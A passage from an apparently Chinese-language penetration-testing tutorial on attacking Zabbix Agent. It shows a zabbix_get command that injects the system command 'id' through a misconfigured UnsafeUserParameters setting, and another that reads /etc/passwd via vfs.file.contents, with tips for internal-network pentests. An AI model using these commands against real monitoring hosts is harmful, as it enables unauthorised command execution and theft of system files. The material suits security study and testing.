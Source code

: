 在 `zabbix_agentd.conf` 文件中添加 `UnsafeUserParameters=1`，command 经过传参拼接后成功注入系统命令。

```plain
zabbix_get -s 172.19.0.5 -p 10050 -k "ping[test && id]"
```

![-w543](assets/1711961932-d261796b3f7e03284e547edf7849e9f2.jpg)

UnsafeUserParameters 参数配置不当问题在监控规模较大的内网里比较常见，内网渗透时可以多留意 Agent 配置信息。

### 3\. 任意文件读取

Zabbix Agent 如果没有配置不当的问题，是否有其他姿势可以利用呢？答案是肯定的。

Zabbix 原生监控项中，`vfs.file.contents` 命令可以读取指定文件，但无法读取超过 64KB 的文件。

```plain
zabbix_get -s 172.19.0.5 -p 10050 -k "vfs.file.contents[/etc/passwd]"
```

![-w644](assets/1711961932-b07790e16ba55799de50d495562f49ce.jpg)
